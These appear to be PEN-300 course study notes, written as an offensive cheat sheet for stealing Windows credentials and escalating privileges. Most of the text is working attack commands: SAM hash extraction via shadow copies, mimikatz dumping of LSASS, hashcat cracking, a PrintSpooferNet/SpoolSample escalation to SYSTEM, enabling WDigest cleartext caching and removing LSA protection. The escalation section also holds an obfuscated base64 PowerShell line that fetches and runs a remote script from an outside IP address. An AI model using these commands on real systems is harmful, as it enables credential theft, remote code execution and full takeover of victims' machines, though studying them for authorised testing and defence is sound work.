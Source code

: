 # PEN-300

#### Local Windows Credentials

## SAM credentials

***theory***: 

Local Windows credentials are stored in the Security Account Manager (SAM) database as password hashes using the NTLM hashing format, which is based on the MD4 algorithm.

We can reuse acquired NTLM hashes to authenticate to a different machine, as long as the hash is tied to a user account and password registered on that machine.

Although it is rare to find matching local credentials between disparate machines, the built-in default-named Administrator account is installed on all Windows-based machines.  


***Attack***:  

To get local client workstation name and administrator RID.  Follow commands below
```plaintext
$env:computername
[wmi] "Win32_userAccount.Domain='client',Name='Administrator'"
```
<br>

<img width="857" height="343" alt="image" src="https://github.com/user-attachments/assets/1f7e1521-032f-4e7a-92f6-0f1827ae132d" />



1) Create shadow copy:          wmic shadowcopy call create Volume='C:\'
2) Locate Shadow copy:          vssadmin list shadows
3) Copy SYSTEM / SAM off of host  
4) mimikatz lsadump::sam /system:systemfile /sam:samfile  
   OR
   creddump7: python pwdump.py ~/data/sam/system ~/data/sam/sam  
   <br>
6) Hashcat the password:  

**Mask attack** ./hashcat64.bin -m 1000 -a 3 -w 3 -O hash.txt -1 ?l?d ?1?1?1?1?1?1?1?1?1 -i --increment-min=5
**Password List** .\hashcat.exe -m 1000 -a 0 -w 3 -O hash.txt password_list.txt
<br>

# Hardening the Local Administrator Account

### CPassword  

**Cpassword in the SYSVOL folder on the DC can be viewed with Get-GPPPassword.ps1**  

[Get-GPPPassword.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Exfiltration/Get-GPPPassword.ps1)

<br><br>


### LAPS - Local Administrator Password Solution  

***LAPS Toolkit for LAPS enumeration***

[Laps ToolKit download](https://raw.githubusercontent.com/leoloobeek/LAPSToolkit/refs/heads/master/LAPSToolkit.ps1)

**Get-LAPSComputers**:  
Displays all computers with LAPS enabled, password expriation, and password if user has access  

**Find-LAPSDelegatedGroups:**  
Searches through all OUs to see which AD groups can read the ms-Mcs-AdmPwd attribute  

***Could then use PowerView to view members of this group***
ex: Get-NetGroupMember -GroupName "LAPS Password Readers"  

**Find-AdmPwdExtendedRights**  
Parses through ExtendedRights for each AD computer with LAPS enabled and looks for which group has read access and if any user has "All Extended Rights". Sysadmins may not be aware the users with All Extended Rights can view passwords and may be less protected than the users in the delegated groups. An example is the user which adds a computer to the domain automatically receives the "All Extended Rights" permission. Since this function will parse ACLs for each AD computer, this can take very long with a larger domain.  

<br><br>

# Access Tokens  

**the operating system also must keep track of the user's access rights, i.e. authorization. Windows uses access tokens to track these rights**  



### PrintSpooferNet and SpoolSample to go from NT Authority\* to SYSTEM.  Local privilege escalation

On Kali as PrintSpooferNet and SpoolSample under visualStudio folder  

AS 'NT Authority':

1) PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss

ALSO AS 'NT AUTHORITY'

2) SpoolSample.exe appsrv01 appsrv01/pipe/test


<Br>CMD.exe will be spawned (you can make any executable in the last line of the source code for printspoofernet) as SYSTEM.  Enjoy priv esc.  <br>
**"C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -encodedCommand KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEAOAA1AC8AcgB1AG4AbgBlAHIALgBwAHMAMQAnACkAIAB8ACAAaQBlAHgA"**  <br>


>The technique shown in this section is not the only possible way of leveraging impersonation to obtain SYSTEM integrity. A similar technique that also uses pipes has been discovered by Alex Ionescu and Yarden Shafir. It impersonates the RPC system service (RpcSs), which typically contains SYSTEM tokens that can be stolen. Note that this technique only works for Network Service. <br><br>On older versions of Windows 10 and Windows Server 2016, the Juicy Potato tool obtains SYSTEM integrity through a local man-in-the-middle attack through COM. It is blocked on Windows 10 version 1809 and newer along with Windows Server 2019, which inspired the release of the RoguePotato tool, expanding this technique to provide access to the RpcSs service and subsequently SYSTEM integrity access.<br><br>Lastly, the beans technique based on local man-in-the-middle authentication with Windows Remote Management (WinRM) also yields SYSTEM integrity access. The caveat of this technique is that it only works on Windows clients, not servers, by default.  


<br><br>

# MIMIKATZ and LSA Protection

**Removal of LSA protection requires mimidrv.sys which may be flagged by AV**  

#### dump all cached passwords and hashes from LSASS

1) privilege::debug  
2) sekurlsa::logonpasswords  
3) Hashes listed under 'NTLM'  


### Wdigest passwords are cleartext.  
> The wdigest authentication protocol requires a clear text password, but it is disabled in Windows 8.1 and newer. We can enable it by creating the UseLogonCredential registry value in the path HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest. Once we set this value to "1", the clear text password will be cached in LSASS after subsequent logins.

```Powershell
Get-ItemPropertyValue -Path "Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" -Name UseLogonCredential

Set-ItemProperty -Path hklm:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Value 1
```

### LSA protection using Protected Processes Light

Check if PPL is running with powershell

```powershell
(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa").RunAsPPL
```

**Disable PPL with mimikatz and mimidrv.sys**

1) !+
2) !processprotect /process:lsass.exe /remove
3) sekurlsa::logonpasswords 

